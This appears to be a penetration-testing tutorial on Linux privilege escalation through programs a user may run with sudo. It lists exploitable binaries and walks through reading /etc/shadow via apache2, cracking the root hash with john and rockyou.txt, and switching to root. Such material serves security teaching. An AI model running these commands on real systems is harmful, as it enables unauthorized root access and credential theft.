





Abusing intended functionality
List of executables that we can exploit with
sudo:• /usr/bin/find
• /usr/bin/nano
• /usr/bin/vim
• /usr/bin/man
•
/usr/bin/awk
• /usr/bin/less
• /usr/bin/nmap
• /bin/more
• /usr/bin/wget
•
/usr/sbin/apache2
Like in
generic
privilege escalation seen above we have to check which programs is allowed to run
sudo,
If a program doesn’t have an escape sequence(like in
generic
privilege escalation), it may still be possible to use it to escalate privileges
by abusing its intended functionality.
1. Target: List of
programs the actual user is allowed to run:
 We need to to do a
research for each program that allow "sudo" and check if we can abuse its functionality
3. Target: go
to
GTFOBins (
https://gtfobins.github.io/) and if we do
not find anything, then search if we can abuse his functionality
 ◇
apache2 when we parse a file
it will error and print any line it does not understand.
target@debian:~$ sudo apache2 -f /etc/shadow
 4. Attacker: Save
the hash in a file in the attacker machine
attacker@kali:/# echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt
5. Attacker: Crack the
password
In this case as we have seen in
Where
are stored the passwords hashes in Linux, $6$ is the algorithm SHA-512
We can use rockyou.txt that has
14.344.392 entries(
Download),
to extract it “gzip -d rockyou.txt.gz”
attacker@kali:/# john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
6. Target: Switch to the
root user
with the cracked password
target@debian:~$ su #insert the password cracked
